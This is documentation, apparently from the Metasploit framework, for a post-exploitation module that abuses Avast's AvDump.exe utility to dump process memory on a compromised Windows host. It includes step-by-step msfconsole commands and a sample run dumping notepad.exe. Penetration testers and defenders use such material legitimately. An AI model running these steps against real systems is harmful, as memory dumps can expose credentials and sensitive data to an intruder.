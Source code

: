 ### Vulnerable Application -  Avast Home Security Suite - Avdump.exe

The Avast Home Security suite ships with a memory dumping utility that can be
leveraged to dump process memory of user defined processes to user defined 
locations.


A detailed write up can be found at https://archcloudlabs.com/projects/dumping-memory-with-av/


## Verification Steps

Verify that the path ```C:\\Program Files\\Avast Software Avast\\AvDump.exe```
exists.
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/avast_memory_dump```
4. Do: ```set SESSION <session id>```
5. Do: ```set DUMP_PATH <specify path dest>```
6. Do: ```set PID <pid>```
7. Do: ```run```

## Options

**PID** 
Specify the PID of the process you would like to dump.

**DUMP_PATH** 
Specify the location to write the memory dump to.

##  Scenarios  

### Windows 10 (2004 OS Build 19041.572)
```
msf > search avast

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  post/windows/gather/avast_memory_dump                   normal  No     Avast AV Memory Dumping Utility


msf > use 0

msf post(windows/gather/avast_memory_dump) > sessions -C 'ps -N notepad.exe'
[*] Running 'ps -N notepad.exe' on meterpreter session 4 (192.168.218.131)
Filtering on 'notepad.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                  Path
 ---   ----  ----         ----  -------  ----                  ----
 8504  1812  notepad.exe  x64   1        DESKTOP-CD2VHVO\user  C:\Windows\System32\notepad.exe

msf post(windows/gather/avast_memory_dump) > show options

Module options (post/windows/gather/avast_memory_dump):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   DUMP_PATH  C:\Users\Public\test.dmp  yes       specify location to write dump file to
   PID        8504                      yes       specify pid to dump
   SESSION    4                         yes       The session to run this module on.
   
msf post(windows/gather/avast_memory_dump) > set PID 8504
PID => 8504

msf post(windows/gather/avast_memory_dump) > set SESSION 4
SESSION => 4

msf post(windows/gather/avast_memory_dump) > run

[*] [2020.10.21-22:49:24] AvDump.exe exists!
[*] [2020.10.21-22:49:24] executing Avast mem dump utility against 8504 to C:\Users\Public\test.dmp
[*] [2020.10.21-22:49:29] [2020-10-22 02:49:26.969] [info   ] [dump       ] [ 1400: 8032] Dumpmaster is arming.
[2020-10-22 02:49:27.047] [info   ] [dump       ] [ 1400: 8032] Successfully dumped process 8504 into 'C:\Users\Public\test.dmp'
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] LogModule is going to be destroyed.
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] =====================================================================================================================
[*] Post module execution completed

```

